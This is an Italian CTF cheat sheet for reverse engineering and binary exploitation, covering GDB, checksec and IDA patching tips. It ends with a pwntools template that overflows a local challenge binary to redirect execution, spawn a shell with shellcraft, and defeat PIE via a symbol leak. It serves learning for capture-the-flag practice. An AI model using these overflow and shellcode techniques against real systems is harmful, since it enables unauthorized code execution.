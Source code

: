 # Rev-PWN

### General terminal command

- **strings *nomeFile*** → Stampa tutte le stringhe del programma
- **checksec *nomeFile*** → per vedere struttura file
- **cat *nomeFile*** → per vedere contenuto file

### GDB debbuger

- **gdb *nomeFile →*** per aprire debbugger del file
    - **break *nomeFunzione*/break **indirizzoMemFunzione →*** per impostare un breakpoint nella funzione
    - **jump *nomeFunzione →*** per chiamare quella funzione
    - **disas *nomeFunzione →*** per vedere cosa fa la funzione (a volte può essere necessario inserire prima un breakpoint)
    - **x/s *indirizzoMemVariabile →*** stampa valore della variabile
    - **info registers** → permette di vedere i registri del file
- **checksec *nomeFile →*** per verificare se RELRO è FULL quindi file protetto da scritture sullo stack
    
    **Calcolare buffer**
    
    - **pattern_create *dimPattern nomePattern***
    - **run < *nomePattern** → per runnare il pattern*
    - **pattern search** → per vedere la dimensione del buffer
        - **EIP+0 found at offset: *dimBuffer →*** dimBuffer sarà la dimensione che dovremo utilizzare

### IDA Tip

- **Evitare la chiamata di una funzione** → cliccare su di essa, e cambiare il suo esadecimale con tutti 90 (edit → patch program → change byte. Per salvare: edit → patch program → apply to input files)
- **Leggere cella di memoria di una funzione** → Andare su finestra exports

### PWN

```python
from pwn import *

garbage = b'java'+b'A'*28
address = p64(0x4007a2) #indirizzo che vogliamo che venga chiamato dopo aver fatto overflow
p = process('./java')
p.sendline(garbage+address)
p.interactive() #da usare se con questo codice si aprira una shell da cui poi dovremo operare
#p.recvall() da usare al posto di interactive se il programma termina e vogliamo ottenere l'output
#----------------------------------------------------------
#Per ottenere l'indirizzo della funzione che vogliamo chiamare
elf=ELF('./java')
address = p64(elf.symbols['print_flag'])
#----------------------------------------------------------
p.sendline(asm(shellcraft.sh())) #se è necessario generare una shell
#-----------------------------------------------------------
exit_got = elf.got['exit'] #da usare se la funzione è in GOT (quindi cambia indirizzo)
#--------DA USARE SE PIE ATTIVO-------------------
from pwn import *

p=process('./challenge')
main =p.unpack()
elf = ELF('./challenge')
elf.address=main-elf.symbols['main']
where = elf.symbols['read']
what = elf.symbols['oh_look_useful']

p.pack(where)
p.pack(what)
p.interactive()
```

### C functions

```c
__asm__() //è molto probabile che sia da arrivare a questa funzione e chiamare una shell
```
